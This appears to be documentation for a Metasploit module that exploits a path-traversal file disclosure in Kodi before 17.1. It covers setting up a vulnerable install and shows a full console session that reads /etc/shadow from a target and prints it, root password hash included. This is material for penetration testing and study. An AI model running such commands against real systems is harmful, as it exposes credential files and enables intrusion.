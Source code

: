 ## Vulnerable Application

This module exploits an arbitrary file disclosure vulnerability in Kodi before 17.1.

**Vulnerable Application Installation Steps**

Grab whatever image from [libreelec](https://libreelec.tv/downloads/) if
you're lazy, like the [one for the Rpi2](http://releases.libreelec.tv/LibreELEC-RPi2.arm-7.0.3.img.gz),
or [install kodi from scratch](http://kodi.wiki/view/HOW-TO:Install_Kodi_for_Linux).

You'll need a version lower than 17.1 of Kodi.

## Verification Steps

A successful run of the exploit will look like this:

```
msf > use auxiliary/scanner/http/kodi_traversal
msf auxiliary(kodi_traversal) > set RPORT 8080
RPORT => 8080
msf auxiliary(kodi_traversal) > set RHOSTS 192.168.0.31
RHOSTS => 192.168.0.31
msf auxiliary(kodi_traversal) > set FILE /etc/shadow
FILE => /etc/shadow
msf auxiliary(kodi_traversal) > run

[*] Reading '/etc/shadow'
[+] /etc/shadow stored as '/home/jvoisin/.msf4/loot/20170219214657_default_192.168.0.31_kodi_114009.bin'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(kodi_traversal) > cat /home/jvoisin/.msf4/loot/20170219214657_default_192.168.0.31_kodi_114009.bin
[*] exec: cat /home/jvoisin/.msf4/loot/20170219214657_default_192.168.0.31_kodi_114009.bin

systemd-network:*:::::::
root:$6$ktSJvEl/p.r7nsR6$.EZhW6/TPiY.7qz.ymYSreJtHcufASE4ykx7osCfBlDXiEKqXoxltsX5fE0mY.494pJOKyuM50QfpLpNKvAPC.:::::::
nobody:*:::::::
dbus:*:::::::
system:*:::::::
sshd:*:::::::
avahi:*:::::::
```
